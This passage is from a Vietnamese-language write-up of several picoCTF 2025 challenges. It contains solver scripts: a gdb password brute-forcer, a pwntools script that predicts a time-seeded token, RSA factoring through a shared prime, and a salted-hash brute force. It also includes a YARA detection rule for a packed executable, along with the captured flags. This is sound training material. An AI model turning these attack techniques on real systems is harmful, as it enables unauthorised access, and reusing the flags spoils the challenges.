                if decrypted_text[i] not in '0123456789abcdef-':
                    # Found a non-hash character, might be the start of our token
                    start = i
                    # Find the end of the non-hash sequence
                    end = start
                    while end < len(decrypted_text) and decrypted_text[end] not in '0123456789abcdef-':
                        end += 1
                    return decrypted_text[start:end]

    # If we still can't find the token, return a portion around the middle
    middle_section = decrypted_text[midpoint-100:midpoint+100]
    return f"Could not clearly identify token. Middle section: {middle_section}"

def analyze_decrypted_text(decrypted_text):
    print("\nAnalyzing decrypted text:")
    print("Length of decrypted text:", len(decrypted_text))
    print("First 100 characters:", decrypted_text[:100])
    print("Middle 100 characters:", decrypted_text[len(decrypted_text)//2-50:len(decrypted_text)//2+50])
    print("Last 100 characters:", decrypted_text[-100:])

    # Split by hyphens to see the structure
    parts = decrypted_text.split('-')
    print(f"Number of parts split by hyphen: {len(parts)}")

    # Check parts for anomalies
    for i, part in enumerate(parts):
        if len(part) != 64 or any(c not in '0123456789abcdef' for c in part):
            print(f"Part {i} is not a standard hash: {part}")

def main():
    # Given data
    key = b'\xa9\xcco`\xfa\xf9\xb5\xc0\xda\xf6*\xb3\xbe\xa9t\x0fi\xae\x13\x01q-\xae\x9ap\xb7\xa45\x1e{\xaa\xb4'
    encrypted_blockchain = b'\xf7Y\x8db\x8bS\xb2\x80q\xf2\xa0\x87\xd6(\xfc\xe6\xf2\\\x82`\x8c\\\xb4\xd4v\xf0\xf2\xd1\xde/\xfa\xb0\xfb]\xdfg\x8bV\xe2\xd1$\xa5\xa6\xd9\x8c+\xa8\xe7\xa6X\x82d\xda\x01\xb1\x85u\xa4\xa3\xd3\xda}\xff\xbc\xeeZ\x8am\x8d\x01\xb1\x84$\xa1\xf4\x85\x8c,\xfa\xe7\xf0S\x8f4\x8f\x02\xb1\x82w\xf1\xf6\x85\xd7/\xff\xb3\xa6]\xdf`\x8b\x00\xe3\xd1"\xf2\xf6\xd8\xda|\xfd\xb7\xf3Z\xd83\xdc\\\xbe\xd6!\xa2\xae\xd8\x8c{\xfa\xb0\xf2G\x8ae\x8a\x01\xe3\xd7q\xf4\xa3\xd9\x8aq\xfd\xbd\xfb\x08\x8ag\x8dQ\xe3\xd0"\xa4\xf2\x84\xdeq\xac\xb5\xf4\x0e\xca<\xdd\x0b\xc5\xe6U\xbc\xf5\x8d\x81*\xa6\xdb\xf09\xe8=\xe8\r\xd4\xd0G\xf6\xe6\x82\xb6\x16\x95\xd1\xa9\'\x8a\'\x8a]\xe5\xfaL\xb6\xd4\x9b\x83\x03\x97\xfe\x81!\xe5a\x87\\\xbf\xd4*\xa2\xf6\x9c\xdex\xf4\xe5\xf6R\x8em\x87W\xb1\x80 \xf5\xf4\xd6\x8a{\xfd\xe7\xf3\x08\x89d\xdfP\xb2\x82u\xf4\xa0\x80\xc3y\xfd\xb2\xa5[\x83m\x8dQ\xe5\x84+\xfe\xa5\x84\xd7p\xf4\xb6\xf1S\x89m\xddQ\xb0\xd7&\xf2\xf2\xd3\x8b,\xf9\xb5\xfa\x08\xd8f\x8c\\\xe5\xd7"\xf3\xf6\xd4\x8c|\xac\xe5\xa7\x08\x8ag\x8d\x02\xbe\xd1$\xa2\xa3\x80\x8ad\xfd\xb4\xa6]\xdc0\xd8W\xb1\x85q\xa5\xf6\x80\xdbq\xa9\xb5\xf0_\xdee\x8e\x00\xbe\xd3r\xf4\xa2\xd4\x88y\xf4\xb0\xa5_\xdc4\xda\x05\xb7\x80r\xf1\xa3\x84\x8ap\xfb\xb2\xfa\x08\x8c`\x8eR\xe3\x81q\xfe\xae\x84\x88x\xcf\x86'

    print("Starting decryption process...")

    # Decrypt the blockchain
    try:
        decrypted_text = decrypt(encrypted_blockchain, key)
        print("\nDecryption successful!")
    except Exception as e:
        print(f"Error during decryption: {e}")
        return

    # Analyze the decrypted text structure
    analyze_decrypted_text(decrypted_text)

    # Extract the token/flag
    token = extract_token(decrypted_text)
    print("\nExtracted token/flag:", token)

    # Additional analysis to find the token if not found by regular methods
    if not re.match(r'[A-Z_]+{[^}]+}', token):
        print("\nPerforming deeper analysis to find the flag...")
        # Check for flag-like patterns anywhere in the text
        flag_pattern = re.compile(r'[A-Z_]+{[^}]+}')
        all_matches = flag_pattern.findall(decrypted_text)
        if all_matches:
            print("All potential flags found:", all_matches)
        else:
            print("No standard flag format found. Checking for other anomalies...")
            # Look for any non-hex characters which might be part of the flag
            non_hex_pattern = re.compile(r'[^0-9a-f-]+')
            non_hex_matches = non_hex_pattern.findall(decrypted_text)
            if non_hex_matches:
                print("Non-hex sequences found:", non_hex_matches)

            # Print the entire decrypted text for manual inspection
            print("\nFull decrypted text (for manual inspection):")
            print(decrypted_text)

if __name__ == "__main__":
    main()
```

## perplexed

### Challenge Description



### Solution

Bài này ta có thể giải bằng `chatGPT` nhưng mình không thích như vậy, mình đã ngồi tìm ra một cách khá hay và cách này cần để `gdb-script`.

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[8]; // [rsp+0h] [rbp-110h] BYREF
  __int64 v5; // [rsp+8h] [rbp-108h]
  __int64 v6; // [rsp+10h] [rbp-100h]
  __int64 v7; // [rsp+18h] [rbp-F8h]
  __int64 v8; // [rsp+20h] [rbp-F0h]
  __int64 v9; // [rsp+28h] [rbp-E8h]
  __int64 v10; // [rsp+30h] [rbp-E0h]
  __int64 v11; // [rsp+38h] [rbp-D8h]
  __int64 v12; // [rsp+40h] [rbp-D0h]
  __int64 v13; // [rsp+48h] [rbp-C8h]
  __int64 v14; // [rsp+50h] [rbp-C0h]
  __int64 v15; // [rsp+58h] [rbp-B8h]
  __int64 v16; // [rsp+60h] [rbp-B0h]
  __int64 v17; // [rsp+68h] [rbp-A8h]
  __int64 v18; // [rsp+70h] [rbp-A0h]
  __int64 v19; // [rsp+78h] [rbp-98h]
  __int64 v20; // [rsp+80h] [rbp-90h]
  __int64 v21; // [rsp+88h] [rbp-88h]
  __int64 v22; // [rsp+90h] [rbp-80h]
  __int64 v23; // [rsp+98h] [rbp-78h]
  __int64 v24; // [rsp+A0h] [rbp-70h]
  __int64 v25; // [rsp+A8h] [rbp-68h]
  __int64 v26; // [rsp+B0h] [rbp-60h]
  __int64 v27; // [rsp+B8h] [rbp-58h]
  __int64 v28; // [rsp+C0h] [rbp-50h]
  __int64 v29; // [rsp+C8h] [rbp-48h]
  __int64 v30; // [rsp+D0h] [rbp-40h]
  __int64 v31; // [rsp+D8h] [rbp-38h]
  __int64 v32; // [rsp+E0h] [rbp-30h]
  __int64 v33; // [rsp+E8h] [rbp-28h]
  __int64 v34; // [rsp+F0h] [rbp-20h]
  __int64 v35; // [rsp+F8h] [rbp-18h]
  int v36; // [rsp+10Ch] [rbp-4h]

  *(_QWORD *)s = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  v9 = 0LL;
  v10 = 0LL;
  v11 = 0LL;
  v12 = 0LL;
  v13 = 0LL;
  v14 = 0LL;
  v15 = 0LL;
  v16 = 0LL;
  v17 = 0LL;
  v18 = 0LL;
  v19 = 0LL;
  v20 = 0LL;
  v21 = 0LL;
  v22 = 0LL;
  v23 = 0LL;
  v24 = 0LL;
  v25 = 0LL;
  v26 = 0LL;
  v27 = 0LL;
  v28 = 0LL;
  v29 = 0LL;
  v30 = 0LL;
  v31 = 0LL;
  v32 = 0LL;
  v33 = 0LL;
  v34 = 0LL;
  v35 = 0LL;
  printf("Enter the password: ");
  fgets(s, 256, stdin);
  v36 = check(s);
  if ( v36 == 1 )
  {
    puts("Wrong :(");
    return 1;
  }
  else
  {
    puts("Correct!! :D");
    return 0;
  }
}
```

```c
__int64 __fastcall check(const char *s)
{
  __int64 v2; // rbx
  __int64 v3; // [rsp+10h] [rbp-50h]
  _QWORD v4[3]; // [rsp+18h] [rbp-48h]
  int v5; // [rsp+34h] [rbp-2Ch]
  int v6; // [rsp+38h] [rbp-28h]
  int v7; // [rsp+3Ch] [rbp-24h]
  int j; // [rsp+40h] [rbp-20h]
  unsigned int i; // [rsp+44h] [rbp-1Ch]
  int v10; // [rsp+48h] [rbp-18h]
  int v11; // [rsp+4Ch] [rbp-14h]

  if ( strlen(s) != 27 )
    return 1LL;
  v3 = 0x617B2375F81EA7E1LL;
  v4[0] = 0xD269DF5B5AFC9DB9LL;
  *(_QWORD *)((char *)v4 + 7) = 0xF467EDF4ED1BFED2LL;
  v11 = 0;
  v10 = 0;
  v7 = 0;
  for ( i = 0; i <= 0x16; ++i )
  {
    for ( j = 0; j <= 7; ++j )
    {
      if ( !v10 )
        v10 = 1;
      v6 = 1 << (7 - j);
      v5 = 1 << (7 - v10);
      if ( (v6 & *((char *)&v4[-1] + (int)i)) > 0 != (v5 & s[v11]) > 0 )
        return 1LL;
      if ( ++v10 == 8 )
      {
        v10 = 0;
        ++v11;
      }
      v2 = v11;
      if ( v2 == strlen(s) )
        return 0LL;
    }
  }
  return 0LL;
}
```

Flow chương trình khá đơn giản, chỉ đơn thuần là nhập password xong rồi `check`. Password ở đây có thể là `flag`. Trong hàm `check`, thực hiện một loạt các thao tác để kiểm tra flag, và mình có viết thử một chương trình C ở ngoài để xem xem output khi sử lý mớ hex trên sẽ ra gì dựa vào flow của hàm `check`

```c
#include <stdio.h>
#include <string.h>
#include <stdint.h>

char* find_password() {
    uint64_t v3 = 0x617B2375F81EA7E1LL;
    uint64_t v4_0 = 0xD269DF5B5AFC9DB9LL;
    uint64_t v4_1 = 0xF467EDF4ED1BFED2LL;

    uint8_t data[23];
    memcpy(data, &v3, 8);
    memcpy(data + 8, &v4_0, 8);
    memcpy(data + 16, &v4_1, 7);

    static char password[28];
    memset(password, 0, sizeof(password));

    int v10 = 0;
    int v11 = 0;

    for (unsigned int i = 0; i <= 0x16; ++i) {
        for (int j = 0; j <= 7; ++j) {
            if (!v10)
                v10 = 1;

            int v6 = 1 << (7 - j);
            int v5 = 1 << (7 - v10);

            if ((v6 & data[i]) > 0) {
                password[v11] |= v5;
            }

            if (++v10 == 8) {
                v10 = 0;
                ++v11;
            }

            if (v11 == 27)
                goto done;
        }
    }

done:
    password[27] = '\0';
    return password;
}

int main() {
    char* password = find_password();
    printf("Password: %s\n", password);

    printf("Length: %zu\n", strlen(password));

    return 0;
}
```

Nhưng có vẽ output nó cho ra thì không phải là một flag đúng cho lắm

```sh
└ ϟ crun solve.c
Checking security features of the compiled binary...
[*] '/home/alter/CTFs/2025/PicoCTF/rev/per/solve'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
Password: picoCTF{0n3_bi7_4tZ/po[tvY`
Length: 27
```

Và vì thế mình đã nghĩ đến hướng là sử dụng `gdb-script` để brute force password. Ý tưởng khá đơn giản là dựa vào `test    al, al` để kiểm tra xem kí tự ta brute force có đúng hay không. Bên cạnh đó mình dựa vào [đây](https://gist.github.com/disconnect3d/cf10935f067f6f7fa74e46462a2db292) để viết lên script này

```py
import gdb
import string
import ctypes


gdb.execute(f"b *0x40123E")

charset = string.printable
# picoCTF{0n3_bi7_4t_a_7im3}
flag = "picoCTF{0n3_"

while len(flag) != 27:
    for char in charset:
        guess = (flag + char).encode()
        guess = guess.ljust(27, b"*")

        with open("_cracking", "wb") as f:
            f.write(guess)

        gdb.execute("r < _cracking")

        for i in range((len(flag) * 7)):
            gdb.execute("c")
            print(i)

        count = 0
        for i in range(8):
            try:
                al = int(gdb.parse_and_eval("$al"))
                gdb.execute("c")
                count += 1
            except Exception:
                pass

        if count == 8:
            flag += char
            print(f"found: {guess}")
            print(f"Current flag: {flag}")
            break
        else:
            print(f"count: {count}")
```

Chương trình đơn giản sẽ so sánh bit của biến v3 lên đến 8 lần. Và chỉ vòng lặp đầu tiên để bỏ qua việc bỏ qua kiểm tra một byte đã biết sau đó vòng lặp thứ hai lặp lại 8 lần, trích xuất giá trị trong al và đảm bảo rằng nó là 8 trước khi thêm vào flag

## Chronohack

### Challenge Description



### Solution

```py
import random
import time

def get_random(length):
    alphabet = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
    random.seed(int(time.time() * 1000))  # seeding with current time
    s = ""
    for i in range(length):
        s += random.choice(alphabet)
    return s

def flag():
    with open('/flag.txt', 'r') as picoCTF:
        content = picoCTF.read()
        print(content)


def main():
    print("Welcome to the token generation challenge!")
    print("Can you guess the token?")
    token_length = 20  # the token length
    token = get_random(token_length)

    try:
        n=0
        while n < 50:
            user_guess = input("\nEnter your guess for the token (or exit):").strip()
            n+=1
            if user_guess == "exit":
                print("Exiting the program...")
                break

            if user_guess == token:
                print("Congratulations! You found the correct token.")
                flag()
                break
            else:
                print("Sorry, your token does not match. Try again!")
            if n == 50:
                print("\nYou exhausted your attempts, Bye!")
    except KeyboardInterrupt:
        print("\nKeyboard interrupt detected. Exiting the program...")

if __name__ == "__main__":
    main()
```

Chương trình này sẽ đoán mã token mà ta nhập vào, trong đó ta có 50 lần thử để đoán đúng một token ngẫu nhiên dài 20 ký tự. Nếu đoán đúng, chương trình sẽ đọc và hiển thị nội dung của file '/flag.txt'. Và điều đặc biệt ở đây là nó sử dụng thời gian thực để khởi tạo seed, do đó token có thể dự đoán được bằng cách brute time mà instance đang chạy

```py
from pwn import *
import random
import time

# Connection configuration
HOST = "verbal-sleep.picoctf.net"
PORT = 55872

# Token configuration
ALPHABET = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
TOKEN_LENGTH = 20
OFFSET_RANGE = 20000  # Testing range in milliseconds

def get_random(length, seed):
    """Generate a random token with a specific seed."""
    random.seed(seed)
    return "".join(random.choice(ALPHABET) for _ in range(length))

def send_to_server(io, start_offset):
    """Try different offsets until a valid token is found."""
    current_time = int(time.time() * 1000)

    for offset in range(start_offset, OFFSET_RANGE):
        guess_time = current_time + offset
        message = get_random(TOKEN_LENGTH, guess_time)

        print(f"[*] Trying offset {offset}: {message}")
        io.sendline(message.encode())  # Encode message to bytes

        try:
            response = io.recvline(timeout=1).decode().strip()
            print(f"[SERVER]: {response}")

            if "Congratulations" in response:
                print("[+] Correct token found:", message)
                io.interactive()
                return True
        except EOFError:
            print("[!] Server closed connection. Reconnecting...")
            return offset  # Return the last attempted offset
        except Exception as e:
            print(f"[!] Error: {e}")
            return offset

    return None  # No valid token found

def main():
    start_offset = -OFFSET_RANGE  # Start from the lower boundary

    while True:
        try:
            io = remote(HOST, PORT)
            result = send_to_server(io, start_offset)
            io.close()

            if result is True:  # Token found
                break
            elif isinstance(result, int):  # Connection lost, resume from last offset
                start_offset = result

            print("[-] Failed to guess token. Retrying...")
            time.sleep(1)
        except EOFError:
            print("[!] Server closed connection. Retrying...")
            time.sleep(1)
            continue
        except KeyboardInterrupt:
            print("\n[!] Exiting...")
            break

if __name__ == "__main__":
    main()
```



# General Skill

## YaraRules0x100

### Challenge Description


### Solution

Dựa vào mô tả thì bài này sẽ yêu cầu ta viết `Yara Rule`. Thì `Yara Rule` sẽ có format là

```
rule RuleName
{
    meta:
        description = "Description of what this rule detects"
        author = "Author Name"
        date = "YYYY-MM-DD"

    strings:
        $string1 = "Suspicious text string"
        $hex_string = { 4D 5A 90 00 }  // Hexadecimal pattern
        $regex = /suspicious[0-9]+\.exe/  // Regular expression

    condition:
        $string1 or $hex_string or $regex
}
```

`string` ở đây sẽ được lấy từ `strings` của chương trình. Và rule lúc đầu của mình sẽ là

```
rule YaraRules0x100_Challenge
{
    meta:
        description = "Detects files related to the YaraRules0x100 challenge"
        author = "Threat Intelligence Analyst"
        date = "2025-10-03"

    strings:
        $s1 = "Welcome to the YaraRules0x100 challenge!" ascii
        $s2 = "NtQueryInformationProcess" ascii
        $s3 = "UPX0" ascii
        $s4 = "UPX1" ascii
        $s5 = "b3mC" ascii
        $s6 = "eCk)i\\" ascii
        $s7 = "qnEg[" ascii
        $s8 = "OpenProcessToken" ascii
        $s9 = "LoadLibraryA" ascii
        $s10 = "Unknown excep" ascii

    condition:
        5 of ($s*)
}
```

Chạy nó và sai test một số test case

```sh
└ ϟ socat -t60 - TCP:standard-pizzas.picoctf.net:59844 < rule.txt
:::::

Status: Failed
False Negatives Check: Testcase failed. Your rule generated a false negative.
False Positives Check: Testcases passed!
Stats: 62 testcase(s) passed. 1 failed. 1 testcase(s) unchecked. 64 total testcases.
Pass all the testcases to get the flag.

:::::
```

Và sau nhiều lần chỉnh sửa thì mình có được rule cuối cùng là

```
rule SuspiciousPackedExecutable
{
    meta:
        description = "Detects a suspicious UPX-packed executable with specific API references"
        author = "Threat Intelligence Analyst"
        date = "2025-10-03"

    strings:
        // PE File Signatures
        $mz = "MZ" ascii
        $pe = "PE" ascii
        $dos_message = "This program cannot be run in DOS mode" ascii

        // UPX and Section Indicators
        $upx0 = "UPX0" ascii
        $upx1 = "UPX1" ascii
        $upx_magic = "UPX!" ascii
        $rsrc = ".rsrc" ascii
        $rich = "Rich" ascii

        // API References
        $api1 = "NtQueryInformationProcess" ascii
        $api2 = "OpenProcessToken" ascii
        $api3 = "LoadLibraryA" ascii
        $api4 = "GetProcAddress" ascii
        $api5 = "VirtualProtect" ascii

        // DLL Names
        $advapi = "ADVAPI32.dll" ascii
        $gdi = "GDI32.dll" ascii
        $kernel = "KERNEL32.DLL" ascii
        $shell = "SHELL32.dll" ascii
        $user = "USER32.dll" ascii
        $vcruntime = "VCRUNTIME140.dll" ascii

        // Manifest (partial match for brevity)
        $manifest = "<?xml version='1.0' encoding='UTF-8' standalone='yes'?>" ascii

        // Challenge-Specific String
        $challenge = "Welcome to the YaraRules0x100 challenge!" ascii

    condition:
        (filesize < 1MB) and
        (
            2 of ($mz, $pe, $dos_message) and           // PE file characteristics
            2 of ($upx0, $upx1, $upx_magic, $rsrc, $rich) and  // UPX and section indicators
            3 of ($api*) and                            // API usage
            2 of ($advapi, $gdi, $kernel, $shell, $user, $vcruntime) and  // DLL imports
            ($challenge or $manifest)                   // Unique identifier or manifest
        )
}
```

```sh
socat -t60 - TCP:standard-pizzas.picoctf.net:59844 < rule.txt
:::::

Status: Passed
Congrats! Here is your flag: picoCTF{yara_rul35_r0ckzzz_4b652721}

:::::
```

# Web Exploitation

## WebSockFish

### Challenge Description


### Solution

Theo như hint bài này sẽ là về `websocket`. Và client websocket giao tiếp với server sẽ như sau

- Thiết lập kết nối: Client gửi một yêu cầu HTTP đặc biệt với header "Upgrade: websocket" để yêu cầu nâng cấp kết nối. Server chấp nhận bằng cách gửi phản hồi HTTP mã 101 (Switching Protocols) để xác nhận.
- Trao đổi dữ liệu: Sau khi kết nối được thiết lập, client và server có thể gửi và nhận dữ liệu hai chiều bất kỳ lúc nào qua các frame WebSocket, không cần tạo kết nối mới.
- Đóng kết nối: Bất kỳ bên nào (client hoặc server) cũng có thể đóng kết nối bằng cách gửi một frame đóng, kèm mã trạng thái và lý do (nếu có).

Trong `Burp Suite` có một cái khá tiện đó là `WebSocket` history, ở đây sẽ cho phép ta xem được giao tiếp giữa client và server



Dùng nó và đi các bước cơ bản



Và khi phân tích kĩ hơn ở ``:


Và sau khi nhập test một số input thì nó đã bị `Integer Overflow`, và lúc này nó cho ta flag luôn



# Crypto

## EVEN RSA CAN BE BROKEN???

### Challenge Description



### Solution

```py
from sys import exit
from Crypto.Util.number import bytes_to_long, inverse
from setup import get_primes

e = 65537

def gen_key(k):
    """
    Generates RSA key with k bits
    """
    p,q = get_primes(k//2)
    N = p*q
    d = inverse(e, (p-1)*(q-1))

    return ((N,e), d)

def encrypt(pubkey, m):
    N,e = pubkey
    return pow(bytes_to_long(m.encode('utf-8')), e, N)

def main(flag):
    pubkey, _privkey = gen_key(1024)
    encrypted = encrypt(pubkey, flag)
    return (pubkey[0], encrypted)

if __name__ == "__main__":
    flag = open('flag.txt', 'r').read()
    flag = flag.strip()
    N, cypher  = main(flag)
    print("N:", N)
    print("e:", e)
    print("cyphertext:", cypher)
    exit()

```

Bài này chỉ đơn giản là viết lại hàm mã hoá RSA

```py
import socket
import math
from Crypto.Util.number import long_to_bytes, inverse

def gcd(a, b):
    """Compute the greatest common divisor of a and b"""
    while b:
        a, b = b, a % b
    return a

def connect_and_get_values(host, port, num_samples=5):
    """Connect to the server and collect multiple N values and ciphertexts"""
    samples = []

    for _ in range(num_samples):
        # Create a new socket connection for each request
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect((host, port))

            # Receive data from the server
            data = b""
            while True:
                chunk = s.recv(4096)
                if not chunk:
                    break
                data += chunk
                if b"cyphertext:" in data:
                    break

            # Parse the received data
            data_str = data.decode()
            lines = data_str.strip().split("\n")

            n_line = [line for line in lines if line.startswith("N:")][0]
            e_line = [line for line in lines if line.startswith("e:")][0]
            c_line = [line for line in lines if line.startswith("cyphertext:")][0]

            n = int(n_line.split(": ")[1])
            e = int(e_line.split(": ")[1])
            c = int(c_line.split(": ")[1])

            samples.append((n, e, c))
            print(f"Got sample {_+1}: N = {n}")

    return samples

def find_common_factors(samples):
    """Find common factors between different N values"""
    n_values = [n for n, _, _ in samples]

    for i in range(len(n_values)):
        for j in range(i+1, len(n_values)):
            n1, n2 = n_values[i], n_values[j]
            common_factor = gcd(n1, n2)

            if common_factor != 1:
                print(f"Found common factor between sample {i+1} and {j+1}: {common_factor}")

                # Find the other prime factors
                p1 = common_factor
                q1 = n1 // p1
                q2 = n2 // p1

                return (i, p1, q1), (j, p1, q2)

    return None

def decrypt_flag(sample_index, p, q, samples):
    """Decrypt the ciphertext using the found factors"""
    n, e, c = samples[sample_index]

    # Verify the factorization
    assert p * q == n, "Factorization is incorrect!"

    # Calculate the private key
    phi = (p - 1) * (q - 1)
    d = inverse(e, phi)

    # Decrypt the ciphertext
    plaintext = pow(c, d, n)
    try:
        flag = long_to_bytes(plaintext).decode()
        return flag
    except:
        print(f"Could not decode plaintext: {plaintext}")
        return None

def main():
    host = "verbal-sleep.picoctf.net"
    port = 58750

    print(f"Connecting to {host}:{port} to collect multiple samples...")
    samples = connect_and_get_values(host, port, 10)  # Get 10 samples

    print("\nAnalyzing samples for common factors...")
    result = find_common_factors(samples)

    if result:
        (idx1, p1, q1), (idx2, p2, q2) = result

        print(f"\nFactors for sample {idx1+1}: p = {p1}, q = {q1}")
        flag1 = decrypt_flag(idx1, p1, q1, samples)

        print(f"\nFactors for sample {idx2+1}: p = {p2}, q = {q2}")
        flag2 = decrypt_flag(idx2, p2, q2, samples)

        if flag1:
            print(f"\nDecrypted flag from sample {idx1+1}: {flag1}")
        if flag2:
            print(f"\nDecrypted flag from sample {idx2+1}: {flag2}")
    else:
        print("\nNo common factors found. Try collecting more samples.")

if __name__ == "__main__":
    main()
```

```sh
Connecting to verbal-sleep.picoctf.net:58750 to collect multiple samples...
Got sample 1: N = 15810321393859430458270260935099089685261985214355630465807900265250012100192752604278722792004535573606948207993561045264578257869064528437545833024512006
Got sample 2: N = 20833646828287992066775852848723535570912411515673336092045411916373855838570019453627538461306526182125084096502516317338626730636548257977579814009955126
Got sample 3: N = 22186149194879757411665559213107590548845935190513686848407745278651772102532386787237619507662783374308605702233179761339286930761867132405457892976919974
Got sample 4: N = 16086263568642967261832186751590438426277554487081169119760701810027900508542996624494038039903656042516267621402859698073564743175951781960669982443514182
Got sample 5: N = 18824989878058469891558740467689322424735355779558903922551437150018733499122782392680380984882067685816324627367688882347331789600532727267891762032579866
Got sample 6: N = 25068732341724943573913746038209573188190239895782594103827586673834986458842202946040048211179472509241350255423189116452833887297337335397397792001241994
Got sample 7: N = 17915732980580200327474903975762611029942814173287899990727834009298584436722850202033473099333326525743489981143678257705941603139045564253755148620405322
Got sample 8: N = 19328257624387217388338875663746203848647846292226353142485039810972794474834870691887939764715772604005004202010845744475970912116978569641549729546163902
Got sample 9: N = 20654852478224657273457971968352812558970883261776965487344838654248095526012075605211440063675772394672755406739392000169737064833666873986499117966298086
Got sample 10: N = 14870629634106878525608203789905101325669220031675770313494685231272368896890024504389844188182695218035253358756105445812573011559012510605977761832538954

Analyzing samples for common factors...
Found common factor between sample 1 and 2: 2

Factors for sample 1: p = 2, q = 7905160696929715229135130467549544842630992607177815232903950132625006050096376302139361396002267786803474103996780522632289128934532264218772916512256003

Factors for sample 2: p = 2, q = 10416823414143996033387926424361767785456205757836668046022705958186927919285009726813769230653263091062542048251258158669313365318274128988789907004977563

Decrypted flag from sample 1: picoCTF{tw0_1$_pr!m33991588e}

Decrypted flag from sample 2: picoCTF{tw0_1$_pr!m33991588e}
```

## Guess My Cheese (Part 1)

### Description



### Solution

```sh
└ ϟ nc verbal-sleep.picoctf.net 60985

*******************************************
***             Part 1                  ***
***    The Mystery of the CLONED RAT    ***
*******************************************

The super evil Dr. Lacktoes Inn Tolerant told me he kidnapped my best friend, Squeexy, and replaced him with an evil clone! You look JUST LIKE SQUEEXY, but I'm not sure if you're him or THE CLONE. I've devised a plan to find out if YOU'RE the REAL SQUEEXY! If you're Squeexy, I'll give you the key to the cloning room so you can maul the imposter...

Here's my secret cheese -- if you're Squeexy, you'll be able to guess it:  MJZTRKSLKLDYTMNROF
Hint: The cheeses are top secret and limited edition, so they might look different from cheeses you're used to!
Commands: (g)uess my cheese or (e)ncrypt a cheese
What would you like to do?
e

What cheese would you like to encrypt? Niolo
Here's your encrypted cheese:  AJTOT
Not sure why you want it though...*squeak* - oh well!

I don't wanna talk to you too much if you're some suspicious character and not my BFF Squeexy!
You have 2 more chances to prove yourself to me!

Commands: (g)uess my cheese or (e)ncrypt a cheese
What would you like to do?
```

Và dựa vào hint ta biết được đó là `affinity` cipher. Tìm kiếm logic tương ứng





## Guess My Cheese (Part 2)

### Challenge Description


### Solution

Theo như các hint thì đề bài sẽ mã hoá `SHA-256` nên việc ta cần làm chỉ là viết script decrypt lại thôi

```py
import hashlib
from pwnie import *

# context.log_level = 'debug'

p = remote('verbal-sleep.picoctf.net', 54640)
ru(b'guess it:  ')
target_hash = rl()[:-1].decode('utf-8')

sla(b'What would you like to do?\n', b'g')

with open("cheese_list.txt", "r", encoding="utf-8") as f:
    cheeses = [line.rstrip("\r\n") for line in f if line.strip()]

found = False

def try_variants(cheese_str):
    global found
    variants = set()
    variants.add(cheese_str)
    variants.add(cheese_str.strip())
    variants.add(cheese_str.lower())
    variants.add(cheese_str.strip().lower())
    variants.add(cheese_str.replace(" ", ""))
    variants.add(cheese_str.strip().replace(" ", ""))
    variants.add(cheese_str + "\n")
    variants.add(cheese_str.strip() + "\n")

    for variant in variants:
        cheese_bytes = variant.encode("utf-8")
        for i in range(256):
            salt_bin = bytes([i])
            salt_hex = f"{i:02x}".encode("utf-8")

            candidates = [
                salt_bin + cheese_bytes,
                cheese_bytes + salt_bin,
                cheese_bytes[:len(cheese_bytes)//2] + salt_bin + cheese_bytes[len(cheese_bytes)//2:],
                salt_hex + cheese_bytes,
                cheese_bytes + salt_hex,
                cheese_bytes[:len(cheese_bytes)//2] + salt_hex + cheese_bytes[len(cheese_bytes)//2:]
            ]

            for candidate in candidates:
                candidate_hash = hashlib.sha256(candidate).hexdigest()
                if candidate_hash == target_hash:
                    print("Match Found!")
                    print("Candidate string repr:", repr(candidate))
                    print("Cheese variant:", repr(variant))
                    print("Salt value:", i, " (", hex(i), ")")

                    sl(variant.encode())
                    sl(f"{i:02x}".encode())

                    interactive()

                    found = True
                    return True
    return False

for cheese in cheeses:
    if try_variants(cheese):
        break

if not found:
    print("Not found!!")
```

```sh
[+] Opening connection to verbal-sleep.picoctf.net on port 58075: Done
Match Found!
Candidate string repr: b'chabis de gatine\x82'
Cheese variant: 'chabis de gatine'
Salt value: 130  ( 0x82 )
[*] Switching to interactive mode

   _   _
  (q\_/p)
   /. .\.-.....-.     ___,
  =\_t_/=     /  `\  (
    )\ ))__ __\   |___)
   (/-(/`  `nn---'

SQUEAK SQUEAK SQUEAK

         _   _
        (q\_/p)
         /. .\
  ,__   =\_t_/=
     )   /   \
    (   ((   ))
     \  /\) (/\
      `-\  Y  /
         nn^nn


Is that you, Squeexy? Are you ready to GUESS...MY...CHEEEEEEESE?
Remember, this is my encrypted cheese:  06820712f0de1a280c8e557421ccaba61b004c3698768aa82e1d341cae9838a2
So...what's my cheese?
Annnnd...what's my salt?

         _   _
        (q\_/p)
         /. .\         __
  ,__   =\_t_/=      .'o O'-.
     )   /   \      / O o_.-`|
    (   ((   ))    /O_.-'  O |
     \  /\) (/\    | o   o  o|
      `-\  Y  /    |o   o O.-`
         nn^nn     | O _.-'
                   '--`

munch...

         _   _
        (q\_/p)
         /. .\         __
  ,__   =\_t_/=      .'o O'-.
     )   /   \      / O o_.-`|
    (   ((   ))      ).-'  O |
     \  /\) (/\      )   o  o|
      `-\  Y  /    |o   o O.-`
         nn^nn     | O _.-'
                   '--`

munch...

         _   _
        (q\_/p)
         /. .\         __
  ,__   =\_t_/=      .'o O'-.
     )   /   \      / O o_.-`|
    (   ((   ))        )'  O |
     \  /\) (/\          )  o|
      `-\  Y  /         ) O.-`
         nn^nn        ) _.-'
                   '--`

MUNCH.............

YUM! MMMMmmmmMMMMmmmMMM!!! Yes...yesssss! That's my cheese!
Here's the password to the cloning room:  picoCTF{cHeEsY0f5cd2b5}
[*] Got EOF while reading in interactive
```
